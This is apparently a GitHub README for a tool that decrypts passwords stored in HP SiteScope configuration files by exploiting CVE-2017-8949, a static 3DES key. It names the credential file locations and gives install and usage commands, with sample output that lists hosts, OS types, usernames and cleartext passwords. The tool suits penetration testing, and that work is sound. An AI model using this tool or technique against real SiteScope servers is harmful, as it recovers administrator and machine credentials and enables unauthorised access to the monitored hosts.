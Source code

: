 A tool to decrypt for HP SiteScope configuration files
=======

HP SiteScope keeps password information in two files:
* C:\SiteScope\groups\users.config is a text config file with credentials to HP SiteScope
* C:\SiteScope\persistency\*.ssf is a java serialized object file with credentials to Widnows and *nix machines

The tool uses CVE-2017-8949 vulnerability, which allows to decrypt any HP SiteScope's password using 3DES algorithm and a static key.

Installation:
```
$ npm install
$ ./decryptor.js --help
```

Using:
```
$ ./decryptor.js -p '(sisp)va1xBRC68d2p/zkd3YVpPg=='
$ ./decryptor.js --ssf-file ./../12345678.ssf | column -t -s ';'
HOST: 10.0.0.1      OS: RHESLinux    USER: pentest                 PASSWORD: pentest
HOST: \\10.0.0.2    OS: NT           USER: PENTEST\Administrator   PASSWORD: pentest
```
